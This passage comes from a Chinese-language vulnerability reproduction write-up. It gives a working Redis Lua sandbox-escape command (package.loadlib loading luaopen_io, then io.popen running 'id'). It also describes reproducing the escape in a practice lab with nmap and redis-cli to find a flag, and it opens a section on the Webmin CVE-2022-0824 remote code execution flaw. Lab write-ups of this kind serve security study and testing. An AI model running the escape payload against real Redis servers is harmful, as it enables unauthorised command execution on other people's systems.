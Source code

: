 连接后可以使用以下命令逃逸

```c
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

## 三、复现

![](2024-02-13/1.png)

 在靶场中启用镜像

一般情况下，redis运行在6379（默认端口），而在此镜像中映射于36770端口可以使用nmap扫描端口发现相应服务

使用kali的redis-cli尝试连接redis，进入后使用eval使用相关脚本 ls  /tmp 找到flag

![](2024-02-13/2.png)

该漏洞成功复现

# CVE-2022-0824 webmin远程代码执行漏洞

###  影响范围：

Webmin < Webmin Webmin1.990 

1.990版本之前均受影响

## 一、webmin描述

Webmin 是一个基于 Web 的 Unix 系统管理界面。使用任何现代网络浏览器，您可以设置用户帐户、Apache、DNS、文件共享等等。 在 1.990 之前的 GitHub 存储库 webmin/webmin 中对远程代码执行的访问控制不当。 

管理员通过浏览器访问Webmin的各种管理功能并完成相应的管理动作。Webmin让您能够在远程使用支持HTTPS (SSL 上的 HTTP)协议的 Web 浏览器通过 Web界面管理您的主机。
